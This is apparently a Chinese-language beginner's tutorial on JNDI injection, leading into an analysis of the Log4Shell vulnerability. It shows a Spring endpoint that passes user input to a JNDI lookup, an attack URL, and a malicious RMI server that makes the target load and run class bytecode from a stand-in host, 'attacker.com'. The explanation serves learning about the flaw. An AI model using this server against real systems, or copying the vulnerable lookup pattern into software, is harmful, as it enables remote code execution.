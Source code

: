 

**再举个例子**:

这是一个存在漏洞的系统:

```java
	@RequestMapping("/lookup")
	@Example(uri = {"/lookup?name=java:comp/env"})
	public Object lookup(@RequestParam String name) throws Exception{
	    return new javax.naming.InitialContext().lookup(name);
	}
```



通过请求“/lookup/?name=ldap://127.0.0.1:1389/Object” URL，我们可以使易受攻击的服务器连接到我们控制的地址。要触发远程类加载，恶意 RMI 服务器可以使用以下配置：

```java
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //creating a reference with 'ExportObject' factory with the factory location of 'http://_attacker.com_/'
        Reference ref = new javax.naming.Reference("ExportObject","ExportObject","http://_attacker.com_/");
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```

由于目标服务器不知道“ExploitObject”，它的字节码将从“http[:]//_attacker.com_/ExploitObject.class”加载并执行，触发RCE。

当然，我初学这些，关于相关的文章我会放在底部，希望以上内容没有什么问题。



### 0x03 Log4jShell 漏洞分析

在了解了相关漏洞情报和查看了[相关补丁更改记录](https://github.com/apache/logging-log4j2/pull/608/commits/7fe72d62fcb9246be792b946e405e1d40d402780)可以得出，该漏洞是通过jndi中LDAP注入的方式导致了RCE，并在对lookup函数进行了判断修改后又限制了jndi对LDAP的访问

翻阅[官方文档](https://logging.apache.org/log4j/2.x/manual/lookups.html)中关于lookup的说明

> Lookups provide a way to add values to the Log4j configuration at arbitrary places. They are a particular type of Plugin that implements the [StrLookup](https://logging.apache.org/log4j/2.x/log4j-core/apidocs/org/apache/logging/log4j/core/lookup/StrLookup.html) interface. Information on how to use Lookups in configuration files can be found in the [Property Substitution](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) section of the [Configuration](https://logging.apache.org/log4j/2.x/manual/configuration.html) page.
>
> lookup 提供了⼀种在任意位置向 Log4j2 配置添加值的⽅法，是实现 StrLookup 接⼝的特殊类型 的插件。

